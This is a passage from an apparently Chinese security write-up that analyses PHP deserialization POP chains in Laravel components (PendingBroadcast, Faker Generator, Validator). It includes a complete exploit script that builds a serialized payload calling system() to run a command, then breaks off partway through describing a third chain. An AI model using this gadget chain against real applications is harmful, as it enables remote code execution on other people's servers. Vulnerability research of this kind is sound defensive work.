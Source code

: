 ![](https://p2.ssl.qhimg.com/t01e9d1c102c6fa2130.png)

![](https://p0.ssl.qhimg.com/t01ad3b15be7188726f.png)

## POP链-2
跟进`src/Illuminate/Broadcasting/PendingBroadcast.php`中的`__destruct()`方法，发现`$this->events`和`$this->event`都是可控的，因此可以寻找一个`__call()`方法或者`dispatch()`方法来进行利用

先用`__call()`来做突破点，跟进`src/Faker/Generator.php`中的`__call()`方法，发现其调用了`format()`方法，进而调用`getFormatter()`方法

![](https://p3.ssl.qhimg.com/t01693e24f56c873248.png)

由于`getFormatter()`方法中的`$this->formatters[$formatter]`是可控的并直接 return 回上一层，因此可以利用该可控参数来进行命令执行 RCE 操作

### exp
```php
<?php
namespace Illuminate\Broadcasting {
    class PendingBroadcast {
        protected $events;
        protected $event;
        function __construct($events="", $event="") {
            $this->events = $events;
            $this->event = $event;
        }
    }
}

namespace Faker {
    class Generator {
        protected $formatters = array();
        function __construct($func="") {
            $this->formatters = ['dispatch' => $func];
        }
    }
}

namespace {
    $demo1 =  new Faker\Generator("system");
    $demo2 = new Illuminate\Broadcasting\PendingBroadcast($demo1, "calc");
    echo base64_encode(serialize($demo2));
}
?>
```
### POP链利用流程图

![](https://p4.ssl.qhimg.com/t01fd65d2d1dcf5a1ee.png)

## POP链-3
继续上面寻找可用的`__call()`方法，跟进`src/Illuminate/Validation/Validator.php`中的`__call()`方法，先进行字符串的操作截取`$method`第八个字符之后的字符，由于传入的字符串是`dispatch`，正好八个字符所以传入后为空，接着经过 if 逻辑调用`callExtension()`方法，触发`call_user_func_array`方法
